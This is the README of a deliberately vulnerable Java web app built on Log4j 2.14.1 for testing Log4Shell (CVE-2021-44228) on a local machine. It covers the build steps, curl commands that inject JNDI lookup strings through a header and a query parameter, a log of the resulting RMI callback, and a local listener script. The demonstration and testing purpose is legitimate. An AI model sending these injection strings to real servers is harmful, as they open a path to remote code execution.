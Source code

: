 # Log4Shell Vulnerable Application(l4s-vulnapp)

This is a potentially vulnerable Java web application containing Log4j(2.14.1) affected by [log4shell](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)(CVE-2021-44228).

## Verified environment and various versions

- [AdoptOpenJDK 17.0.10+7](https://adoptium.net/temurin/releases/?os=windows&arch=x64&package=jdk&version=17)
- [Gradle 8.6](https://gradle.org/next-steps/?version=8.6&format=all)
- [Gretty 4.1.2](https://plugins.gradle.org/plugin/org.gretty)
- [Apache Tomcat 10.1.15](https://tomcat.apache.org/tomcat-10.1-doc/changelog.html#Tomcat_10.1.15_(schultz))
- [Apache Log4j Core 2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1)

## Preparation

- Download and extract [AdoptOpenJDK](https://adoptium.net/temurin/releases/) zip file.
- set a PATH and JAVA_HOME variable.
- Execute `java --version` command to check if AdoptOpenJDK works properly.

[Note]  
If you want to change the JDK version, tomcat port, etc., edit build.gradle.

## Build and Run

Execute Gradle wrapper with build.gradle.

```
# on Linux
./gradlew appRun

# on Windows
.\gradlew.bat appRun
```

Top URL:

```
http://localhost:8080/l4s-vulnapp/
```

[Note]  
Log4Shell triggers only when the app performs some Log4j logging.   
For example, if the following URL is accessed, Log4Shell will be executed.

```
http://localhost:8080/l4s-vulnapp/servlet
```

You can check Log4Shell by tampering with "x-param" value or by adding "x-log" header to the HTTP request when accessing it.  
These params will be logged by Log4j.  
However, this is only if a listening server is standing at localhost:8081.

```
curl http://localhost:8080/l4s-vulnapp/servlet -H 'x-log: ${jndi:rmi://localhost:8081/test.txt}'
curl -X GET http://localhost:8080/l4s-vulnapp/servlet?x-param=%24%7Bjndi%3Armi%3A%2F%2Flocalhost%3A8081%2Ftest.txt%7D
```

## Verification Results

- HTTP Request
  
  ```
  GET http://localhost:8080/l4s-vulnapp/servlet?x-param=%24%7Bjndi%3Armi%3A%2F%2Flocalhost%3A8081%2Ftest.txt%7D HTTP/1.1
  Host: localhost:8080
  Connection: keep-alive
  Cache-Control: max-age=0
  sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
  sec-ch-ua-mobile: ?0
  sec-ch-ua-platform: "Windows"
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)   Chrome/122.0.0.0 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/  *;q=0.8,application/signed-exchange;v=b3;q=0.7
  Sec-Fetch-Site: same-origin
  Sec-Fetch-Mode: navigate
  Sec-Fetch-User: ?1
  Sec-Fetch-Dest: document
  Referer: http://localhost:8080/l4s-vulnapp/
  Accept-Encoding: gzip, deflate, br, zstd
  Accept-Language: ja,en-US;q=0.9,en;q=0.8
  
  
  ```

- HTTP Response

  ```
  HTTP/1.1 200
  Content-Type: text/plain;charset=utf-8
  Content-Length: 62
  Date: Fri, 15 Mar 2024 18:42:56 GMT
  Keep-Alive: timeout=60
  Connection: keep-alive

  Hello
  Logging to console using vulnerable Log4j2 by parameter
  ```

- RMI Request by l4s-vulnapp

  ```
  2024/03/16 03:42:46: [Start] Receive Server for Log4Shell.
  2024/03/16 03:42:46: [Note] Listening on IP: "localhost" Port: 8081
  2024/03/16 03:42:55: [Note] Requested from IP: "127.0.0.1" Port: 53282)
  2024/03/16 03:42:55: [Hex data] ===== start =====
  2024/03/16 03:42:56: 00000000   4A 52 4D 49 00 02 4B 00 00 00 00 00 00 00 00 00  JRMI..K.........
  2024/03/16 03:42:56: 00000010   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  2024/03/16 03:42:56: [Hex data] =====  end  =====
  2024/03/16 03:42:56: [Raw data] ===== start =====
  2024/03/16 03:42:56: JRMI
  2024/03/16 03:42:56: [Raw data] =====  end  =====
  ```

## Option

l4s-ls.ps1  starts a listen server, execute this script on Windows PowerShell/Command Prompt.  
This server receives binary communications such as LDAP and RMI, and can display the contents of said communications in Hex and Raw.  
If the script malfunctions, use Ctrl + C to stop.

[Caution]  
When running this script for the first time, it is necessary to select "Private Network" in the Windows pop-up.

```
PowerShell -ExecutionPolicy RemoteSigned .\l4s-ls.ps1 -p 8081
```

## References

- [GitHub - tothi/log4shell-vulnerable-app](https://github.com/tothi/log4shell-vulnerable-app)
- [ももいろテクノロジー - PowerShellでnc（netcat）を書いてみる (2015/4/16)](https://inaz2.hatenablog.com/entry/2015/04/16/025953)

